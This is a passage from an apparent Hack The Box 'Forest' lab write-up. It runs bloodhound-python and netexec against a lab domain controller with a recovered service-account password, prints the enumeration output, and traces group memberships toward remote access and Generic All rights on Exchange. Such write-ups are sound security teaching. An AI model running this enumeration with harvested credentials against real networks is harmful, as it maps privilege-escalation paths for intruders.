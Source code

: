 Next, we will use the same account to run `bloodhound-python`, a Python-based implementation of the popular BloodHound tool. BloodHound is a powerful Active Directory (AD) attack simulation and enumeration tool that helps security professionals identify potential attack paths within an AD environment. It maps out relationships and permissions across users, groups, and services, making it easier to spot privilege escalation opportunities. By leveraging `bloodhound-python`, we can automatically gather and analyze these relationships, helping us pinpoint high-value targets and vulnerabilities in the network’s security posture.


```shell
┌──(frodo㉿kali)-[~/hack-the-box/forest]
└─$ bloodhound-python -d htb.local -ns 10.129.59.175 -u svc-alfresco -p 's3rvice' -c All --zip
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (FOREST.htb.local:88)] [Errno 111] Connection refused
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 24S
INFO: Compressing output into 20241119222342_bloodhound.zip
```
> We can collect the same details using `netexec` as well:
{: .prompt-tip }

```shell
netexec ldap 10.129.59.175 -u svc-alfresco -p 's3rvice' --bloodhound --collection All
```

#### Analyzing the BloodHound Data

1. `SVC-ALFRESCO` is a member of the `SERVICE ACCOUNTS` group.
2. The `SERVICE ACCOUNTS` group is a member of the `PRIVILEGED IT ACCOUNTS` group.
3. Members of the `PRIVILEGED IT ACCOUNTS` group can use PowerShell Remoting to access the domain controller: `FOREST.HTB.LOCAL`.

> PowerShell Remoting is a built-in feature in Windows that allows remote execution of scripts and PowerShell commands.  
{: .prompt-info }

4. The `PRIVILEGED IT ACCOUNTS` group is also a member of the `ACCOUNT OPERATORS` group, which has `Generic All` permissions on the Exchange server: `EXCH01.HTB.LOCAL`.
